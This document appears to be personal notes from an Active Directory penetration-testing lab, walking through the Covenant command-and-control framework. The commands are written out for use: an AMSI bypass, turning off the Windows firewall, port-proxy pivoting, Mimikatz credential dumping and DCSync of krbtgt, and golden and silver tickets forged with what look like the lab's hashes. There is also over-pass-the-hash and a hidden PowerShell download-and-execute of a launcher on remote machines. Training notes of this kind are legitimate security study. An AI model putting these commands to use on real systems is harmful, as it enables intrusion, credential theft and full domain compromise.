 ### **Create Listener**

1. Name - We can name the listener with any name. We will use HTTPListener as the Name. 
2. BindAddress - If we have multiple network interface and want to listen on specify interface, we can set the BindAddress. By default, this needs to be on 0.0.0.0. 
3. BindPort - We can keep this to default 80 or change. This is the port on which the listener will bind to. 
4. ConnectPort - We can keep this to default or change. This is the port on which the agent (Grunt) will connect to. 
5. ConnectAddress - We need to enter the IP of the host on which Covenant is running. We can add multiple ConnectAddress and it can also contain the domain name which can be pointed to the Covenant host. 
6. UseSSL - We need to keep the default setting False as we are not going to use SSL for communication. 
7. HttpProfile - We can keep the ModifiedHttpProfile setting. There is an option to create a custom profile for the listener.

### **Create Launcher**
1. Name - We can name the launcher with any name. We will use PowerShellLauncher as the Name. 
2. Description - We can keep the default value. 
3. Listener - Select the HTTPListener which we created above. 
4. ImplantTemplate - We will use the default template ModifiedGruntHTTP. The implant template can be customized if needed and we can use a custom template. 
5. DotNetVersion - We will use Net40 option since .NET4.0 is by default installed on most of the newer version of windows. 
6. OutputKind – Select the WindowsApplication option from the dropdown list. We can also use ConsoleApplication as an option. 
7. ValidateCert - We can currently ignore this option as we are using HTTP listener without any SSL certificate. We can configure our listener to use HTTPS. 
8. UseCertPinning - We can also ignore this option as we are not using listener with HTTPS configuration. 
9. Delay - We can keep this as default to 5 seconds. This option is used define the sleep time between the agent (Grunt) and the Covenant host connections. Larger value will increase the time between communication and execution of the task.
10. JitterPercent - We can keep this option also set to default. This will add the variability in the Delay value.
11. ConnectAttempts - We can keep this option also set to default. This option defines the number of times the agent (Grunt) will try to connect before quitting in case of connection issues.
12. KillDate - Select a date manually when we want our agent to get killed. This option will kill the agent (Grunt) automatically on the date and time set in this option.
![[Pasted image 20231116112456.png]]

### **Host the Launcher**
1. Click on the Host tab in the PowerShell Launcher Window 
2. Added the URL of the file from which it can be accessed. We have added /HTTPGrunt.ps1 as the url. We can also add something like /FolderName/FileName.ps1 where we can mimic the folder structure. 
3. Click on Host button. 
4. Once we click on Host we will see that the Launcher & EncodedLauncher textbox are filled with value that contains the PowerShell code to download and run the Launcher. Launcher textbox contains the code in plaintext & EncodedLauncher textbox contains the code that is base64 encoded.
   ![[Pasted image 20231116112516.png]]

### **AMSI Bypass**
1. Go on the task tab of the grunt
2. Select bypass AMSI
3. Run
![[Pasted image 20231116171245.png]]+


### **Import malware and launch it**
Use the built-in task of PowerView *PowerShellImport* to import the malware

Once you done this you can go on the interact tab to launch the malware command

![[Pasted image 20231116172507.png]]

### **Download a file**
Just launch the download command
```
Download <File Name>
```

### **Create a Pivot**
There is a firewall between our kali and other machine, so we will use pwned machine as pivot
On pwned machine
```
ShellCmd netsh interface portproxy add v4tov4 listenport=80 listenaddress=0.0.0.0 connectport=8080 connectaddress=<OUR IP>
```
To check for Local Firewall
```
PowerShell Get-NetFirewallProfile
```
To disable local firewall
```
PowerShell Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```
Setup a new listener to link to the studentvm tunnel just created
![[Pasted image 20231220122530.png]]
And create a related launcher and launch it on the victim (Connect address and port -> remote pwned machine)
### **Run Mimikatz**
![[Pasted image 20231220152858.png]]
"sekurlsa::logonPasswords"

to dump domain hash from dc
 "lsadump::lsa /patch" 
"lsadump::dcsync /user:dcorp\krbtgt"

With Invoke-Mimikatz forge a golden ticket using the krbtgt hash

PowerShell Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
### **Over Pass the Hash**
Create a new binary launcher on studentListener
![[Pasted image 20231220153823.png]]
Host it
To perform the attack select the task mimikatz and launch the command (You need to have the file on the pwned machine). aes256 not rc4
```
"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<aes256> /run:C:\Users\Public\Downloads\BinaryStudent.exe"
```
![[Pasted image 20231220155219.png]]
New grunt inside the launcher pwned machine will appear that has the svcadmin token inside
```
ls \\dcorp-dc.dollarcorp.moneycorp.local\C$
```
![[Pasted image 20231220155527.png]]

### **Launch a Grunt inside another machine**
```
PowerShell Invoke-Command -ScriptBlock {PowerShell -Sta -Nop -Window Hidden -Command "IEX (iwr '<IP AND PATH TO LAUNCHER>' -UseBasicParsing)"} -ComputerName <MACHINE NAME>
```

### **Persistence**
Create a silver ticket to HOST service to create a schedule task that open a new grunt
```
PowerShell Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:1be12164a06b817e834eb437dc8f581c /user:Administrator /ptt"'
```
![[Pasted image 20231221104319.png]]